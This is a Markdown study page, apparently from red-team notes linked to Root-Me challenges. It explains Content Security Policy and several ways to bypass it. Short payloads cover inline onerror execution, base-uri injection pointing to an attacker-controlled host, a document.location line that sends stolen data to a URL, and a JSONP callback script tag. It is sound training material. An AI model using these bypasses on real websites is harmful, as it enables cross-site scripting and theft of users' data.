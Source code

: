# Content Security Policy (CSP)

[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

<div class="row row-cols-lg-2"><div>

The Content Security Policy (CSP) is a security mechanism designed to make XSS and other web client attacks harder.

* 🐛 We can block inline code execution <small>(no onload/...)</small>
* 🖼️ We can configure the image policy <small>(no external? whitelist? local?)</small>
* 💥 We can configure the script policy <small>(no external? whitelist? local?)</small>
* 🐍 We can configure URLs that we can connect to <small>(ex: fetch(URL))</small>
* ...

We can either use `curl -i URL` and manually inspect the CSP header and meta-tag or use Google [CSP Evaluator](https://csp-evaluator.withgoogle.com/).
</div><div>

Developers can allow some elements to bypass the CSP, such as one specific element allowed to load an external script using a `nonce`.

```html!
<script nonce="some_nonce_here">/*inline code allowed*/</script>
```

☠️ Nonce must be unique and not predictable for them to be useful.
</div></div>

<hr class="sep-both">

## CSP Bypass

*CSP policies may not be correctly configured and bypassed. Refer to [XSS Malicious Code](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-malicious-code) and [XSS Filter Bypass](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-filter-bypass) for more details.*

<div class="row row-cols-lg-2"><div>

#### CSP Bypass — unsafe-inline

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)

If `unsafe-inline` is enabled, you can execute code using:

```html!
<img src=1 onerror="your_code_here" />
```

<br>

#### CSP Bypass — base-uri

[![csp_bypass_nonce_2](../../../../../_badges/rootme/web_client/csp_bypass_nonce_2.svg)]()

If the CSP is lax enough, we may be able to inject a base-uri to an external website we control, allowing us to load files from our server.

```html!
<base href="https://example.com" target="_blank">
<img src="img/dummy.jpg"/>
<!-- https://example.com/img/dummy.jpg -->
```
</div><div>

#### CSP Bypass — connect-src 'none'

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

If `connect-src` is `none`, any external request will fail. Try:

* `document.location = 'URL/?param=' + <stolen_data>` <small>(CTF-only)</small>
* Automatically submit a hidden form after injecting data inside. Refer to [CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md).

<br>

#### CSP Bypass — JSONP — script-src

[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

JSONP was designed to ease the process of connecting an API with the website code: the developer can write code automatically executed after the API has been called within the URL ☠️.

Well-known list of public JSONP APIs: [JSONBee](https://github.com/zigoo0/JSONBee) <small>(0.7k ⭐)</small>. Look if your CSP policy is lax enough to allow any of them to be loaded.

```html!
<!-- don't forget "defer" or "async" -->
<script defer src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);alert(2)"></script>
```
</div></div>